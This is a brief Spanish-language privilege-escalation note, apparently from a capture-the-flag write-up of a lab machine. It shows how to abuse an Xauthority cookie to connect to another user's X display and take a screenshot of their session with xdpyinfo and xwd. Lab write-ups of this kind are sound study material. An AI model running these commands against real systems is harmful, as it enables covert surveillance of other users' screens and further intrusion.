 # Escalada

## Abuso de Xauthority

### Listar sesiones activas
```null
alex@squashed:/home/alex$ w
 15:06:33 up  8:45,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               06:21    8:45m 46.16s  0.06s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

### Verificar la conexión
```null
xdpyinfo -display <DISPLAY>
```

### Capturar pantalla
```null
xwd -root -screen -silent -display <DISPLAY> > screenshot.xwd
```

